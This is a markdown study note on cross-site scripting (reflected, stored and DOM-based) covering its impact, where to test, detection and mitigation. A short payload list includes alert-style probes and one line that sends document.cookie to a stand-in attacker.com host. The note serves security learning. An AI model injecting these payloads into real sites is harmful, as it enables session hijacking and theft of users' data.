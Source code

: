 # XSS (Cross-Site Scripting)

---

## Metadata
 - **OWASP Category (2021):** A03 Injection  
 - **PortSwigger Link:** [What is cross-site scripting (XSS) and how to prevent it? | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting)

 - **Sub-Topics:**
   - Reflected XSS - Malicious script comes from the current HTTP request - visiting the URL executes the script   
   - Stored XSS - Malicious script is received from an untrusted source - and is included within later HTTP responses untrusted. (Comments on blog post, contact details on an order, etc.)  
   - DOM-based - Application contains client-side JS that processes data from an untrusted source via writing the data back to the DOM  

---

## 💡 Concept
> - **What is it?**
>   - Manipulating a website to return malicious JS to users, which would execute inside a victim’s browser… resulting in compromising their interaction with the application  
>   - Circumvents the same-origin policy (separates different websites from each other)  
>   - Can impersonate another user to access their data and carry out actions on their behalf  
>
> - **Impact**
>   - **Confidentiality:** Steal cookies, tokens, or sensitive user data  
>   - **Integrity:** Inject scripts to alter website content or user actions  
>   - **Availability:** Disrupt application functionality for users  

---

## 🛠 Exploitation Notes
> - **Where to test:**
>   - Entry point in application where input is returned in HTTP responses, and testing executable arbitrary JS  
>   - Somewhere where input in a parameter is placed in a DOM, and test each location  
>
> - **Payloads**
>   - Reflected: `<script>alert(1)</script> → now \`print()\` on Chrome since 2021`
>   - Attribute injection: `<img src=x onerror=alert(1)>`
>   - DOM-based: `<svg onload=alert(1)>`
>   - Stealth: `<script>fetch('https://attacker.com/cookie='+document.cookie)</script>`

---

## 🔍 Detection
> - Stored/Reflected = Crafted input that executed JS in entry points where HTTP responses are returned  
> - DOM = From URL parameters… see above where the input placed in a parameter is placed in the DOM, and test each location  
> - Burp Suite’s web vulnerability Scanner combines dynamic and static analysis  

---

## 🛡 Mitigation
> - Filter input on arrival via whitelist of allowed characters  
> - Encode data on output (HTTP responses)  
> - Appropriate response headers like `Content-Type` and `X-Content-Type-Options` to ensure proper interpretation  
> - Content Security Policies to reduce whichever XSS may still occur  

---

## Extras
> - **Cheat sheet / references:**  
>   [Cross-Site Scripting (XSS) Cheat Sheet – 2025 Edition | Web Security Academy](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
